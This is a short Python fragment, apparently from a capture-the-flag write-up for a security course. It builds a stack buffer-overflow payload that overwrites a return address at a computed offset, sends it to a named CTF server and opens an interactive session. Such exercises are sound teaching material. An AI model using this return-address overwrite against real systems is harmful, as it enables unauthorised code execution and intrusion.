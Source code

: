 ```python

    # Buffer size is 100 bytes
    # +4 (probably because of alignment)
    # +4 because return address comes after the frame pointer ($ebp)
    offset = 100 + 4 + 4

    L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
    payload[offset:offset + L] = (ret).to_bytes(L, byteorder='little')

    r.send(payload)
    r.interactive()

hostname = 'ctf-fsi.fe.up.pt'
port = 4001

netcat(hostname, port)
```
